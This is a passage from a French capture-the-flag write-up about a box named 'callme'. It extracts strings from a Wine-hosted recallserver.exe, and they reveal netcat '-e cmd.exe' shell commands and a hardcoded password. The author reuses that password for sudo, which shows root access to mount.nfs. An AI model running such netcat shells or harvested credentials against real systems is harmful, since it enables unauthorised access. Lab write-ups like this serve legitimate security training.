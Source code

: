 `fox        984  3.6  2.0 2648776 20776 tty2    Sl+  14:03  14:21 recallserver.exe`

Il a été placé dans le system32 du Wine :

```shellsession
$ find / -name recallserver.exe 2> /dev/null
/home/fox/.wine/drive_c/windows/system32/recallserver.exe
```

Quand on connait la structure d'un exécutable (différentes sections pour chaque type de données) on sait que les chaines de caractères intégrées par le développeur seront rassemblés à une même endroit.

J'applique donc un strings sur le binaire et fait une recherche sur *booboo* :

```
TRILLION
 HUNDRED 
sxhh
sxhh
ZYYd
connected
nc64.exe 
 1234 -e cmd.exe
Welcome to foxrecall server
username: 
login: 
Password
pass: 
tutankamenFERILLI
Wrong password for user fox
admin
booboo
Wrong password for user admin
user does not exist
cmd /c nc.exe 
 -e cmd.exe
You are not ready sorry...
bye!
ZYYd
```

La chaine `tutankamenFERILLI` est clairement quelque chose que je n'avais pas vu jusqu'ici.

Il s'avère que c'est le mot de passe de l'utilisateur *fox* et qu'on peut s'en servir pour une commande sudo :

```shellsession
$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for fox: 
Matching Defaults entries for fox on callme:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User fox may run the following commands on callme:
    (root) /usr/sbin/mount.nfs
```
